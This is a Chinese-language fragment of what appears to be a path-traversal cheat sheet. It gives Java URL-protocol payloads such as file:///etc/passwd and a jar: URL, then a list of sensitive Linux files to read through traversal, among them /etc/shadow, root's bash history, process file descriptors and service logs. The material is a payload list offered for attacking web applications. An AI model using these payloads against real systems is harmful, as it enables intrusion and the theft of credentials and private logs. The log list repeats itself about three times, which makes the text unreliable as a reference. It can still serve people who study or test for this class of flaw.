 ### Java URL协议

Java应用程序可能容易受到通过`jar:`、`file:`、`http:`等协议的目录遍历攻击。

```powershell
jar:http://example.com/bar/bar.jar!/META-INF/MANIFEST.MF
file:///etc/passwd
```

## 路径遍历

### Linux文件

```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*
/root/.bash_history
/root/.bashrc
/root/.profile
/var/log/auth.log
/var/log/daemon.log
/var/log/messages
/var/log/syslog
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mysql/error.log
/var/log/mysql/mysql.log
/var/log/postgresql/postgresql-*.log
/var/log/redis/redis-server.log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/httpd/access_log
/var/log/httpd/error_log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mysql/error.log
/var/log/mysql/mysql.log
/var/log/postgresql/postgresql-*.log
/var/log/redis/redis-server.log
/var/log/auth.log
/var/log/daemon.log
/var/log/messages
/var/log/syslog
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mysql/error.log
/var/log/mysql/mysql.log
/var/log/postgresql/postgresql-*.log
```